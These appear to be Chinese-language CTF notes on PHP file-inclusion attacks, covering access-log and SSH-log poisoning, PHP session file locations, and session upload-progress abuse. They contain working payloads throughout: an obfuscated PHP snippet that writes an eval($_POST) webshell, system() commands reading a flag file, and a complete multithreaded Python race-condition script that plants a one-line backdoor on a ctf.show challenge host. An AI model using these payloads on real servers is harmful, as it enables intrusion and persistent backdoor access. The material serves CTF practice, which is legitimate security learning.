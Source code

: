 ## **日志包含**
已知url上有文件包含
log日志记录ua，参考web日志路径
修改ua为phpshell,包含日志log文件
修改UA为：
```
1=system("ls");
1=system("tac fl0g.php");

<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?>
```
```
/var/log/nginx/access.log
```

^
ssh登录日志文件
把登录名改php的shell
包含ssh登录日志

^
## **session临时文件包含**
php的session保存在一个目录下
session内容可控时
文件包含session文件

php的session常见存储位置，里面为键值对 字符
```
/var/lib/php5/sess_PHPSESSID
/var/lib/php7/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSED
/var/lib/php/sessions/sess_PHPSESSID
```
PHPSESSID来源F12的cookie会存储
如
```
/tmp/sess_99se2w33sddcs
```
^
**文件名和内容的控制：**
cookie中自定义新的Session ID会新初始化Session。如，设置PHPSESSID=AAA，PHP将会在服务器上创建一个文件: /tmp/sess_AAA"， 文件里存放了键值，键值由ini.get("session.upload_progress.prefix")+session.upload_progress.name值组成。
所以同时通过POST传参PHP_SESSION_UPLOAD_PROGRESS即可写入内容：
```
'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
```

^
但因为默认配置session.upload_progress.cleanup=on（意思是当文件上传结束后，php将会立即清空对应session文件中的内容）。所以，我们文件上传后，session文件内容会被立即清空。这就要利用竞争，在session文件内容被清空前进行包含利用。

^
**写入session文件同时文件包含写小马，小马jiuzhen.php密码3：**
```
import requests
import io
import threading

url='http://9a77fcb3-6f3c-4bd6-a247-07bfe6766509.challenge.ctf.show:8080/'
sessionid='ctfshow'
data={
   "1":"file_put_contents('/var/www/html/jiuzhen.php','<?php eval($_POST[3]);?>');"
}
#这个是访问/tmp/sess_ctfshow时，post传递的内容，是在网站目录下写入一句话木马。这样一旦访问成功，就可以蚁剑连接了。
def write(session):#/tmp/sess_ctfshow中写入一句话木马。
   fileBytes = io.BytesIO(b'a'*1024*50)
   while True:
      response=session.post(url,
         data={
         'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
         },
         cookies={
         'PHPSESSID':sessionid
         },
         files={
         'file':('ctfshow.jpg',fileBytes)
         }
         )

def read(session):#访问/tmp/sess_ctfshow，post传递信息，在网站目录下写入木马。
   while True:
      response=session.post(url+'?file=/tmp/sess_'+sessionid,data=data,
         cookies={
         'PHPSESSID':sessionid
         }
         )
      resposne2=session.get(url+'jiuzhen.php');#访问木马文件，如果访问到了就代表竞争成功
      if resposne2.status_code==200:
         print('++++++done++++++')
      else:
         print(resposne2.status_code)

if __name__ == '__main__':

   evnet=threading.Event()
   #写入和访问分别设置5个线程。
   with requests.session() as session:
      # 当你使用 requests.Session() 创建了一个会话对象后，这个会话对象会自动处理cookie。
      # 如果你在会话中发送了一个请求，服务器返回了cookie，那么这些cookie会被会话对象自动保存，并且在后续使用同一个会话对象发送的请求中自动携带这些cookie。
      for i in range(5):
         threading.Thread(target=write,args=(session,)).start()
      for i in range(5):
         threading.Thread(target=read,args=(session,)).start()

   evnet.set()
```

^
对于system($_GET['cmd'])函数，也可以用session，用cmd=php /tmp/sess_aaaa




